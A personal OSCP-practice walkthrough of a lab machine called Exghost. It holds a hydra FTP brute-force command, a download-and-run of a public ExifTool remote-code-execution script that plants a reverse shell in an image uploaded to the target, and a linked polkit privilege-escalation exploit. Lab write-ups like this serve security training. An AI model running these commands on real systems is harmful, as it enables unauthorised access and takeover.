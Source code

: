# ExGhost Walkthrough
Name: Exghost
Date:  04/09/2022
Difficulty:  Easy
Goals:  OSCP Prep 3/5 machines a day testing (can use walkthrough)
Learnt: 
- This wordlist for ftp default creds `/usr/share/seclists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt`
- Importance of manual PrivEnum
- No compiler no worries go python3 exploit
- 

![](kali.jpg)

Reupload after failure with markdown image sizing
`
## Recon

Thought my recon was good.. but ended up adding this to my hydra cheatsheet. Close the walkthrough because that seemed like a bit of a slap in the face.

```bash
hydra -L users.txt -P /usr/share/seclists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt $ip ftp
```

![](ftpbrute.png)

Got the backup file, `file backup` outputs that it is a pcap filem open wireshark 
![](posttoexiftool.png)

![](exampleupload.png)

Post the Pentest Monkey PHP reverse shell!

![](curlnoworko.png)


## Exploit && Foothold
Can back to finish this walkthrough; there is a [remote code execution](https://github.com/AssassinUKG/CVE-2021-22204) for EXifTool 12.23 
```bash
wget https://raw.githubusercontent.com/AssassinUKG/CVE-2021-22204/main/CVE-2021-22204.sh
chmod +x CVE-2021-22204.sh
bash CVE-2021-22204.sh "reverseme $ip 80" kali.jpg
curl -F myFile=@kali.jpg http://192.168.141.183/exiftest.php
```

![](upload-succesful.png)


## PrivEsc

![](linenumone.png)

LinEnum does not check expoitable apts, manually:
```bash
apt list --upgradeable
```

I started work on a script to searchsploit the a list of vulnerable apts, but I need to either make something workable with json as the output for bash weird even with the `--colour` flag...away polkit-1 is vulnerable to [CVE-2021-4034](https://raw.githubusercontent.com/joeammond/CVE-2021-4034/main/CVE-2021-4034.py). Because this Ubuntu box does not have gcc this is a python3 exploit.

![](root.png)